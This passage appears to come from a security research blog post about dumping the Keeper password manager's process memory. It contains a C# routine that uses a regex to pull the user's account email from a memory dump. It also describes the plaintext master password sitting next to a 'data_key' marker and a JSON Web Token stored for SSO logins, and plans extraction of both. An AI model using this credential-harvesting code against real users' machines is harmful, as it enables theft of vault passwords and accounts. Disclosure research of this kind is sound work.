 However, there are crucial bits of data missing here. Keeper stores far more of value in memory than just the vault records. One can find the user account email address in memory using the below.

```csharp
    public static void extract_account(string text)
    {
        int index = text.IndexOf("{\"expiry\"");
        int eindex = text.IndexOf("}");
        while (index >= 0)
        {
            try
            {
                int endIndex = Math.Min(index + eindex, text.Length);
                Regex reg = new Regex("(\\{\\\"expiry\\\"[ -~]+@[ -~]+(?=\\}).)");
                string match = reg.Match(text.Substring(index - 1, endIndex - index)).ToString();
                if ((match.Length > 2))
                {
                    Console.WriteLine("->Account Record Found : " + match + "\n");
                    return;
                }
                index = text.IndexOf("{\"expiry\"", index + 1);
                eindex = text.IndexOf("}", eindex + 1);
            }
            catch
            {
                return;
            }
        }

    }
```

Also, while the idea of a master password is great - it is conveniently stored in memory in plain text right next to a recognizable `data_key` identifier for easy retrieval.

![Oops...](../assets/img/master-pass.png)
![Oops...](../assets/img/master-pass-struct.png)

An exception to this is SSO logins which instead appear to store a JSON Web Token, in a separate JSON object. Not that anyone has an interest in that, ***wink wink***. 

So I shall apply checks for the master password too, by looking for the data_key key word and filtering out known useless result patterns.
